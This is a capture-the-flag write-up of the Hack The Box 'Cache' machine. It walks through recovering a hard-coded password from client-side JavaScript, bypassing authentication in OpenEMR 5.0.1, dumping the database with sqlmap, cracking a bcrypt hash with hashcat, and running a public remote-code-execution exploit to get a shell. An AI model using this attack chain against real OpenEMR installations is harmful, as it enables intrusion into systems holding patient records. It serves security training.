

# 10 - HTTP

# login.php


While examining the request with burp I noticed no request is being made to the server even with credentials but errors popped up on my screen anyway. That was obviously suspicious because if *login* was a properly made login page it would have sent the request to the server. At that point I wanted to see the source.

# functionality.js
```html
┌─[user@parrot]─[10.10.14.9]─[~/htb/cache]
└──╼ $ curl -s  http://cache.htb/login.html  |tail -4 | head -1
  <script src="jquery/functionality.js"></script>
```

It looks like a js script is deciding if we should get in, maybe it also contains some passwords to compare with user input.

# ash
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/cache]
└──╼ $ curl -s  http://cache.htb/jquery/functionality.js | head -19
$(function(){
    
    var error_correctPassword = false;
    var error_username = false;
    
    function checkCorrectPassword(){
        var Password = $("#password").val();
        if(Password != 'H@v3_fun'){
            alert("Password didn't Match");
            error_correctPassword = true;
        }
    }
    function checkCorrectUsername(){
        var Username = $("#username").val();
        if(Username != "ash"){
            alert("Username didn't Match");
            error_username = true;
        }
    }
```
Just as we thought, it contains a plain text password.

* ash: H@v3_fun

# author.html


The author of the page says we should check out their other project "HMS (Hospital Management System)". We have to guess the location which should not be that hard.

# hms.htb
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/cache]
└──╼ $ curl --header 'Host: hms.htb'  10.10.10.188 -v
*   Trying 10.10.10.188:80...
* Connected to 10.10.10.188 (10.10.10.188) port 80 (#0)
> GET / HTTP/1.1
> Host: hms.htb
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 Found
< Date: Wed, 08 Sep 2021 09:46:48 GMT
< Server: Apache/2.4.29 (Ubuntu)
< Location: interface/login/login.php?site=default
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host 10.10.10.188 left intact
```


The response redirects us to interface/. That looks like a valid virtual host.

# OpenEMR


OpenEMR is open source. In order to view the version we can visit admin.php

# Version 5.0.1


The version is 5.0.1 patch 3

# Searchsploit


All the exploits here are authenticated. Are there any other exploits that do not require authenticated? A quick google search on "openemr exploit" brings us to a vulnerability report by open-emr.

# Vulnerability Report


The vulnerability uncovers sqli injection and remote code execution vulnerabilities. SQLi exploit too requires authentication but there is a way around that. If an attacker visits register.php, the server assigns a PHP session id but this session treated as authenticated on some endpoints. What this report is trying to tell us simply is that with the authentication bypass we can dump the database through sqli if we can dump also the password and get lucky with the cracking process we may be able to execute one of the exploits in the exploitdb to gain code execution on the box.


# Authentication bypass


The cookie that the server is trying to set for us is authenticated so we will use this session to perform sqli attack with sqlmap


add_edit_event_user.php will be our endpoint.


# Error based SQLi


This proves that the server is, indeed, vulnerable to sql injection.

```
GET /portal/add_edit_event_user.php?eid=1 HTTP/1.1
Host: hms.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=soduqmsqb2kkcberll4stcpju3; OpenEMR=lhbjcak0fg6hc7ppphkp1nlr9m
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Pragma: no-cache
Cache-Control: no-cache

```

We need to trim the eid parameter because sqlmap does not like to see the injected parameters.


# SQLmap


openemr_admin is the username but the password needs to be cracked.

# Cracked

```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/cache]
└──╼ $ hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt --user
$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.:xxxxxx
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEc...F6P0B.
Time.Started.....: Wed Sep  8 21:17:02 2021 (3 secs)
Time.Estimated...: Wed Sep  8 21:17:05 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      295 H/s (17.38ms) @ Accel:4 Loops:32 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 848/14344385 (0.01%)
Rejected.........: 0/848 (0.00%)
Restore.Point....: 840/14344385 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-32
Candidates.#1....: tazmania -> jesucristo

Started: Wed Sep  8 21:14:39 2021
Stopped: Wed Sep  8 21:17:07 2021
```

openemr_admin: xxxxxx


# Exploit
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/cache]                                                     
└──╼ $ searchsploit -m php/webapps/48515.py                                                     
  Exploit: OpenEMR 5.0.1 - Remote Code Execution (1)                                                                                                                                                URL: https://www.exploit-db.com/exploits/48515                                                                                                                                          
     Path: /usr/share/exploitdb/exploits/php/webapps/48515.py
File Type: ASCII text, with CRLF line terminators                                                                                                                                             
                                               
Copied to: /home/user/htb/cache/48515.py     
┌─[user@parrot]─[10.10.14.9]─[~/htb/cache]
└──╼ $ python2 48515.py 
[+] Authentication with credentials provided please be patient
[+] Uploading a payload it will take a minute
[+] You should be getting a shell

```


# Shell
